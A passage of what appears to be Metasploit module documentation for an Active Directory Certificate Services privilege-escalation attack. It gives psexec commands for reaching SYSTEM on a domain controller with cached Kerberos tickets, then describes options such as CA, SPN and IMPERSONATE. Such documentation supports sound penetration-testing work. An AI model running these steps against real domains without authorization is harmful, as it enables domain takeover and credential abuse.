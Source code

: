 - Verify the privilege escalation is successful using `psexec` module. It will
  automatically use the TGS cached from the previous steps.

1. Do: `use windows/smb/psexec`
1. Do: `exploit rhosts=<remote host> lhost=<local host> smbuser=administrator smb::domain=<FQDN domain name> Smb::Auth=kerberos Smb::Rhostname=<DC hostname in FQDN format> DomainControllerRhost=<DC IP>`
1. Verify you got a session as the `NT AUTHORITY\SYSTEM` user

## Options

### DC_NAME

The name of the domain controller being targeted (must match RHOST)

### LDAP_PORT

The LDAP port. The default is 636 on an encrypted channel and 389 on a non-encrypted channel.

### CA
The target certificate authority. The default value used by AD CS is `$domain-DC-CA`.

### USERNAME

The username to authenticate with. This will be used for SMB, LDAP and Kerberos authentications.

### PASSWORD

The password to authenticate with. This will be used for SMB, LDAP and Kerberos authentications.

### COMPUTER_NAME

The computer name to add. A random name will be generated if not set.

### COMPUTER_PASSWORD

The password for the new computer. A random password will be generated if not set.

### SPN

The Service Principal Name used to request an additional impersonated TGS,
format is `<service_name>/<hostname>.<FQDN>` (e.g. `ldap/dc01.mydomain.local`).
Note that, independently of this option, a TGS for `cifs/<DC_NAME>.<DOMAIN>`
will always be requested. This option is only available if the `PRIVESC` action
is selected (default).

### IMPERSONATE

The user on whose behalf a TGS is requested (it will use S4U2Self/S4U2Proxy to
request the ticket). Set to `Administrator` by default. This option is only
available if the `PRIVESC` action is selected (default).

## ACTIONS
